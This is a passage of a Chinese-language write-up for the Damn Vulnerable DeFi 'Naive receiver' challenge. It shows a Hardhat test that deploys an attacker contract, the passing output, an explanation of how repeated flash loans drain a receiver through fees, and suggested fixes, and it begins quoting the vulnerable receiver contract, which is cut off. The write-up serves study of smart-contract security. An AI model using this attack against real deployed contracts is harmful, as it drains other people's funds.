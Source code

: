 - 測試

```jsx
    it('Exploit', async function () {
        const flashLoanReceiverAttacker = await (await ethers.getContractFactory('FlashLoanReceiverAttacker', deployer)).deploy(this.pool.address);
        await flashLoanReceiverAttacker.attack(this.receiver.address);
    });
```

- `yarn run naive-receiver` 之後就可以發現通過拉 ✨

```
  [Challenge] Naive receiver
    ✓ Exploit (176ms)

  1 passing (1s)

✨  Done in 4.43s.
```

### 🔧 弱點總結 & 修改方式

這題我們通過流動性借貸池 `NaiveReceiverLenderPool` 的 FlashLoan 去攻擊 `FlashLoanReceiver` ，是屬於借刀殺人型攻擊的題目。

- 弱點：
    1. Flash Loan 的接收者`FlashLoanReceiver` 沒有限定 call flashLoan 的 tx.origin，所以導致所有人都可以借錢然後指定 `FlashLoanReceiver`收
    2. 沒有確認收錢後的執行結果、沒有限定必須達成某些條件才 execute transaction，等於沒有利用到 flashLoan 最大的好處 =，所以導致可以白白被收取手續費。

        =如果沒有賺錢就不執行

- 攻擊方式：
  - hacker呼叫 `NaiveReceiverLenderPool.flashLoan` 指定 `FlashLoanReceiver` 收使之白白被收取手續費。
- 改進：1. 如果要更改可以在 `FlashLoanReceiver` 當中限制 `tx.origin` 必須是 Owner 或其他授權對象。2. 限制 `FlashLoanReceiver.receiveEther` 一定要滿足某些條件才 execute，不然就 revert

## 完整合約

### FlashLoanReceiver 完整合約

```jsx
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";

/**
 * @title FlashLoanReceiver
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract FlashLoanReceiver {
    using Address for address payable;

    address payable private pool;

    constructor(address payable poolAddress) {
        pool = poolAddress;
    }

    // Function called by the pool during flash loan
    function receiveEther(uint256 fee) public payable {
        require(msg.sender == pool, "Sender must be pool"); // 💡 只有 pool 可以觸發此 function

        uint256 amountToBeRepaid = msg.value + fee;

```
